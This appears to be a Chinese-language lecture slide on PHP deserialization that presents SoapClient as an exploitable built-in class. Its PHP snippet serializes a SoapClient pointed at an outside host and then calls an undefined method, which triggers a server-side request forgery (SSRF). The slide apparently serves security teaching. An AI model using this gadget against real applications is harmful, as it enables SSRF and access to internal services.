

反序列化
PHP中可以利用的内置类
SoapClient（__call方法调用时导致SSRF）
<?php
$a = new SoapClient(null,array('uri'=>'http://zzm.cat8080', 'location'=>'http://zzm.cat:8080'));
$b = serialize($a);
$c = unserialize($b);
$c->a();